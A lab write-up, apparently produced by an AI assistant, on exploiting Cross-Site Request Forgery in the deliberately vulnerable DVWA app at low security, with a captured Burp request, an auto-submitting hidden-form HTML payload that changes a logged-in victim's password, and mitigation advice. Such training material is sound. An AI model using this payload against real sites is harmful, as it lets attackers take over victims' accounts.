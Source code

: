 # DVWA CSRF Lab (Low Difficulty)

## Overview
This lab demonstrates a **Cross-Site Request Forgery (CSRF)** attack on DVWA at **Low security level**. CSRF is a web vulnerability that allows an attacker to trick a logged-in user into performing actions they did not intend, such as changing their password.  

At **low difficulty**, DVWA has **no protection against CSRF**, making it vulnerable to attacks via crafted links or hidden forms.

---

## Objective
- Make the current user change their password **without their knowledge**.
- Exploit the absence of CSRF tokens and session verification.
- Use basic social engineering to trick the user into visiting a malicious link or page.

---

## Conditions for CSRF
For a successful CSRF attack:
1. **Relevant Action:** There must be an action on the site (e.g., change password form).  
2. **Session Handling:** Site relies on **cookie-based sessions** for authentication.  
3. **No Unpredictable Parameters:** No CSRF token or unpredictable request parameter is required to validate the request.  

At low security, all three conditions are met.

---

## Steps to Perform the Attack

### 1. Setup DVWA
1. Set **DVWA Security → Low**.  
2. Go to **CSRF module**.  
3. Inspect the **Change Password** form:  

```html
<form action="vulnerabilities/csrf/" method="POST">
  New Password: <input type="text" name="password">
  Confirm Password: <input type="text" name="password_conf">
  <input type="submit" value="Change">
</form>
````

---

### 2. Capture the Request with Burp Suite

1. Open **Burp Suite → Proxy → Intercept**.
2. Submit a normal password change in DVWA.
3. Intercepted POST request example:

```http
POST /DVWA/vulnerabilities/csrf/ HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=abc123; security=low
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

password=test123&password_conf=test123
```

---

### 3. Craft Malicious CSRF Page

Create an HTML page (`csrf_attack.html`) that submits the request automatically:

```html
<html>
  <body>
    <form action="http://127.0.0.1/DVWA/vulnerabilities/csrf/" method="POST" id="csrfForm">
      <input type="hidden" name="password" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
    </form>
    <script>
      document.getElementById('csrfForm').submit();
    </script>
  </body>
</html>
```

* **action:** DVWA CSRF URL
* **hidden inputs:** set the new password
* **script:** auto-submits the form

---

### 4. Test the Attack

1. Open the crafted `csrf_attack.html` while logged in as the victim.
2. DVWA processes the request and changes the password to `hacked123`.
3. Confirm by logging in with the new password.

---

## Notes

* Low security DVWA **does not have CSRF tokens**, making this attack straightforward.
* Medium/High security levels **require CSRF tokens or referrer validation**, which prevent direct attacks.
* CSRF attacks exploit **trust in the user's browser** rather than a flaw in the server itself.

---

## Mitigation

To prevent CSRF attacks:

1. Use **CSRF tokens** in all forms.
2. Validate the **Referer header** to ensure requests originate from your domain.
3. Implement **SameSite cookies** for session management.

---

## References

* [PortSwigger CSRF Guide](https://portswigger.net/web-security/csrf)
* DVWA Documentation

```

---

If you want, I can also **create the full lab folder** with `csrf_attack.html` and this `README.md` ready for submission.  

Do you want me to do that?
```

